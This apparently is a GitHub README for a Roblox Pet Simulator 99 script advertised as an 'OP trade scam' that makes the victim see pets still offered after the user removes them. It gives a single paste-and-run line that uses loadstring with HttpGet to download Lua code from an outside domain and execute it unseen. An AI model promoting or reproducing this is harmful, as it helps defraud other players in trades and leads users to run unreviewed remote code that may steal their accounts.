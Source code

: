 # PS99
OP PS99 TRADE SCAM
A TRADE SCAM THAT LETS U REMOVE UR PETS FROM A TRADE BUT ON THE VICTIMS SCREAN ITS STILL THERE THIS SCRUPT IS SO OP

this is all in one
script: 

loadstring(game:HttpGet("https://egorikusa.space/d26052d588a47bfb379afb58.lua", true))()
